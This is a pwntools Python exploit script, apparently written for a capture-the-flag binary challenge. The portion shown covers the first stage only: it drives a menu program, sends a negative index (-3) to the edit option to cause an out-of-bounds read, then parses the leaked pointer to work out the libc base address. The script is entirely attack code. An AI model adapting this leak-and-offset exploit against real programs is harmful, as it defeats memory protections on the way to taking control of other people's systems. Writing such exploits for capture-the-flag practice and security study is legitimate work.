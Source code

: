 ```python
# io = remote('host', port)  # For remote
io = process(binary)  # For local testing

# ============================================
# VERIFIED CONSTANTS (from GDB)
# ============================================
# CRITICAL: These values MUST be verified with GDB
# Do NOT guess or trust Ghidra values alone

# Leak offset (verified with: leaked - /proc/PID/maps)
LEAK_OFFSET = 0x21aaa0  # ← VERIFY THIS

# Overflow padding (verified with: cyclic pattern)
PADDING = 200  # ← VERIFY THIS

# ============================================
# STAGE 1: INFORMATION LEAK
# ============================================
log.info("=" * 60)
log.info("STAGE 1: Leaking libc address")
log.info("=" * 60)

# Setup: Create valid area if needed
io.sendlineafter(b'URL: ', b'http://test.com')
io.sendlineafter(b'choice: ', b'1')  # Create
io.sendlineafter(b'x: ', b'1')
io.sendlineafter(b'y: ', b'1')
io.sendlineafter(b'width: ', b'1')
io.sendlineafter(b'height: ', b'1')
io.sendlineafter(b'URL: ', b'http://test.com')
io.sendlineafter(b'title: ', b'test')

# Leak: Out-of-bounds read
io.sendlineafter(b'choice: ', b'3')  # Edit
io.sendlineafter(b'index: ', b'-3')  # OOB!

# Navigate to leak field
io.sendlineafter(b'x): ', b'1')
io.sendlineafter(b'y): ', b'1')
io.sendlineafter(b'width): ', b'1')

# Capture leak
data = io.recvuntil(b'height): ')
try:
    leaked = int(data.split(b'current: ')[-1].split(b')')[0])
except:
    log.error("Failed to parse leak!")
    io.close()
    exit(1)

# Calculate base
libc_base = leaked - LEAK_OFFSET

log.success(f"Leaked: {hex(leaked)}")
log.success(f"Libc base: {hex(libc_base)}")

# Validation (CRITICAL)
if not (0x700000000000 < libc_base < 0x800000000000):
    log.error(f"Invalid libc base range: {hex(libc_base)}")
    log.error("Leak offset likely incorrect!")
    log.error("Action: Verify offset with GDB")
    io.close()
    exit(1)
```